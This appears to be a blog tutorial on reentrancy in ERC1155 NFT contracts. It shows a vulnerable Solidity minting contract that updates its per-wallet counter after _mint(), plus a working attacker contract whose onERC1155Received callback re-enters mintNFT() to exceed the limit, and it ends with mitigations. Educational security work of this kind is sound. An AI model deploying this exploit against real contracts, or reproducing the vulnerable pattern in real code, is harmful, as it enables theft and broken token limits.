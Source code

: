 ```yaml
---
published: true
---
```

## Attacking ERC1155's _mint function through ReEnterency

### Hi 

Most of you heard of  Ethereum Blockchain and NFT(Non-fungible Token). 

In terms of implementing a NFT on **Ethereum Blockchain** using **Solidity** language, there are two well defined and popular standards i.e **ERC721 and ERC1155**

We will be working on ERC1155 standard, implementing by **openzepplin**

Generally , in ERC1155 smart contract, There is a function which let users to mint NFT through a public website. A typical smart contract will look like 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^ 0.8.7;

import "@openzeppelin/contracts/token/ERC1155/ERC1155.sol";
import "@openzeppelin/contracts/access/Ownable.sol";
import "@openzeppelin/contracts/token/ERC1155/extensions/ERC1155Burnable.sol";


contract MySimpleErc1155 is ERC1155, ERC1155Burnable, Ownable {
    uint mintIdx ;
    string public name;
    string public symbol;
    uint maxMintperWallet = 10;
    mapping(address => uint ) perWalletMinttracker; 
    constructor() ERC1155("https://gateway.pinata.cloud/ipfs/"){
        name = "MYSIMPLE1155";
        symbol = "MS1155";
    }

    function mintNFT() public {
    	
    	// check if user has minted 10 NFT or not
        require(perWalletMinttracker[msg.sender] < maxMintperWallet, "Per wallet mint limit exceed");
        
        // if require condition pass then mint one NFT 
        _mint(msg.sender,1 , 1 , "");
        
        //increase mint counter for the user
        perWalletMinttracker[msg.sender]++;

    }

}

```



**MySimpleErc1155** contract is extending openzepplin's implementation of ERC1155. It has some standard variable like name , symbol which get assigned in the constructor. 

Important function here is **mintNFT()**  and **maxMintPerWallet** . The `require (perWalletMinttracker[msg.sender] < maxMintperWallet, "Per wallet mint limit exceed");` is restricting the user to mint more than 10 NFT. And after a successful mint in ` _mint(msg.sender,1 , 1 , "");` , it increment the counter by one for the user  in the `perWalletMinttracker` .This perWalletMinttracker is used in **require** condition to check if the user has minted 10 NFT or not.

This is very common practice which I seen in many ERC1155 smart contract.  let's compile and deploy this smart contract and mint some NFT.

I will be using remix ide for the same. bekow is the screen shot after deployment of the contract

![1.png](https://github.com/gurus158/blogs/blob/gh-pages/post_images/2022-03-02-ReEnterency-Attack-In-ERC1155-NFT-Protocol/1.png?raw=true)

So when we call mintNFT() function , it will mint one NFT . I have called it 10 times. and when i call it 11th time from same account it throw me error `Per wallet mint limit exceed` , which is expected .

![2.png](https://github.com/gurus158/blogs/blob/gh-pages/post_images/2022-03-02-ReEnterency-Attack-In-ERC1155-NFT-Protocol/2.png?raw=true)

in image you can see , balance is 10 for the user, and when user try to mint 11th , transaction reverted.

But it is possible to bypass maxMintPerWallet limit for this smart contract. One can mint as many NFT as he wants.

In ERC1155 , minting is basically transfer of a token **from null addres to the address of the user want to mint** , and ERC1155 need to sure that receiver is willing to receive the token and  receiver has received the token. For that receiver need to be an ERC1155 holder and should have implemenataion of **onERC1155Received**() which return a sort of signal that it has received the token.

Now the problem is user can be a normal wallet or a smart contract. And if it's a smart contract it will implement **onERC1155Received()** . In it's implementation , it is possible to write any logic or even call mintNFT function of the original contract again and it will become a recursion.

As this contract updating **perWalletMinttracker** after callling **_mint()** , It is very possible to bypass   `require(perWalletMinttracker[msg.sender] < maxMintperWallet, "Per wallet mint limit exceed");` this check, because while calling mintNFT again in **onERC1155Received** , perwalletTracker is not updated in other calls. 

Let's exploit this vulnerability by creating another contract. code will look like below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^ 0.8.7;
import "@openzeppelin/contracts/token/ERC1155/utils/ERC1155Holder.sol";

abstract contract MySimpleErc1155 {
    function mintNFT() public virtual;
}
contract hacker is ERC1155Holder{
    
    MySimpleErc1155 victimContract;

    constructor() {
        victimContract  = MySimpleErc1155(0xd9145CCE52D386f254917e481eB44e9943F39138);
    }
    uint iterations =12;

    function onERC1155Received(
        address,
        address,
        uint256,
        uint256,
        bytes memory
    ) public virtual override returns (bytes4) {
                iterations--;
        if (iterations==0)
        {return this.onERC1155Received.selector;}

        victimContract.mintNFT();
        return this.onERC1155Received.selector;
    }

    function mintN() public {
        victimContract.mintNFT();
    }
    }
```

I have extended ERC1155Holder in hacker contract. Also I have declared an abstract contract with mintNFT() function similar to actual **MySimpleErc1155**.

I have created 2 functions 

1. onERC1155Received --> override the actual implementation present in ERC1155Holder.sol
2. mintN --> simple function which call **MySimpleErc1155** 's  **mintNFT()**

If you see the **onERC1155Received** function above, I have added a if statement to only call mintNFT() 12 times i.e greater than 10.

let's compile and deploy this hacker contract.

![3.png](https://github.com/gurus158/blogs/blob/gh-pages/post_images/2022-03-02-ReEnterency-Attack-In-ERC1155-NFT-Protocol/3.png?raw=true)

You can see we have  mintN and couple of other functions available, which are implemented in ERC1155Holder.sol.

Now if I click mintN button on remix. hacker contract will be able to mint 12 NFTs.

We can confirm this by checking balanceOf function of **MySimpleErc1155** . 

![4.png](https://github.com/gurus158/blogs/blob/gh-pages/post_images/2022-03-02-ReEnterency-Attack-In-ERC1155-NFT-Protocol/4.png?raw=true)



So this how a Re-Enterency can be exploit . To save your contract from this vulnerability. It is recommended to do all required calculation before calling **_mint()** 

or using reEnterency guards available in [openzepplin](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol)

